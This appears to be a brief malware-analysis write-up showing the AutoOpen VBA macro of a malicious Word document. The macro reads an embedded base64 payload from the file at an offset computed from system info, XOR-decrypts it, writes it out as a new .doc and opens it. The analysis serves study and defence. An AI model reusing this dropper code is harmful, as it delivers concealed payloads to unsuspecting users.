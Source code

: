 The interesting macro code is in "AutoOpen"  
The front part is doing some anti-debugger/anti-vm checks  
The important part starts from here

```vb
offy = iffyoffy
    
payload_size = 78508
b64 = Replace(supersuper(offy), vbLf, "")
b64 = Left(b64, payload_size)
    
Dim rawlobster() As Byte
rawlobster = bbbbb(b64)
rawf = ActiveDocument.Path & "\\as8ja8sj3d.doc"
FF = FreeFile
Open rawf For Binary Access Write As #FF
    
Put #FF, 1, rawlobster
Close #FF
Application.Documents.Open rawf

Function iffyoffy() As Long
    iffyoffy = ((CInt(Left(WordBasic.[GetSystemInfo$](25), 2)) \ 50) * 500) + ((WordBasic.[GetSystemInfo$](31) \ 768) * 1337) + ((WordBasic.[GetSystemInfo$](32) \ 1366) * 81175)
End Function

Function supersuper(iffy) As String
    On Error Resume Next
    fp = ActiveDocument.Path & "\\" & ActiveDocument.Name
    Dim data As String
    Dim FF As Integer
    FF = FreeFile
    Open fp For Input As #FF
        
    Seek FF, iffy + 1
    supersuper = Input$(LOF(FF) - iffy, FF)
    Close 1
End Function

Private Function bbbbb(ByVal snakes As String) As Variant
    On Error Resume Next
    Set oo = CreateObject("MSXML2.DOMDocument")
    Set xx = oo.createElement("b64")
    xx.dataType = "bin.base64"
    xx.Text = snakes


    bbbb = xx.nodeTypedValue
        
    k = Asc(Mid(WordBasic.[GetSystemInfo$](30), 10, 1)) Xor Asc(Mid(WordBasic.[GetSystemInfo$](30), 17, 1))
        
    Dim pppp(58880) As Byte
    For iter = 0 To 58880
        pppp(iter) = bbbb(iter) Xor k
    Next
    bbbbb = pppp

     
End Function
```
